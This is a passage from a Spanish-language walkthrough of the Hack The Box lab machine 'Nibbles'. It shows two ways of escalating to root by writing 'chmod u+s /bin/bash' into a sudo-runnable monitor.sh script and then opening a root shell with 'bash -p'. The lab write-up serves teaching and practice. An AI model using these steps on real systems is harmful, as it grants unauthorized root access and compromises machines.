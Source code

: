 <h3 id="PostForma2">Forma 2: Cambiar los Permisos de la Bash</h3>

Veamos los permisos de la **Bash**:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
```

Bien, esta vez, vamos a entrar al archivo y a agregar lo siguiente:
```bash
chmod u+s /bin/bash
```

Ejecutamos el script con el comando **sudo**:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
/home/nibbler/personal/stuff/monitor.sh: 26: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 36: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 43: /home/nibbler/personal/stuff/monitor.sh: [[: not found
nibbler@Nibbles:/home/nibbler/personal/stuff$
```

Comprobamos otra vez los permisos de la **Bash**:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la /bin/bash 
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
```

Y ahora si, nos metemos a la **Bash**:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ bash -p
bash-4.3# whoami 
root
```

<br>

<h3 id="PostForma3">Forma 3: Suplantación de Archivo .sh</h3>

Primero, tratemos de crear las dos carpetas que deberían crearse con el descomprimido, si nos deja, vamos bien y si no, lo intentamos con las formas anteriores:
```bash
nibbler@Nibbles:/home/nibbler$ mkdir -p /home/nibbler/personal/stuff
```

Si nos dejó, vamos a meternos hasta **stuff**:
```bash
nibbler@Nibbles:/home/nibbler$ cd personal/stuff/
```

Ahí vamos a crear el archivo **monitor.sh** y vamos a poner el comando para cambiar los permisos de la **Bash**:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ nano monitor.sh
chmod u+s /bin/bash
```

Guardamos, salimos y le damos permisos de ejecución:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
```
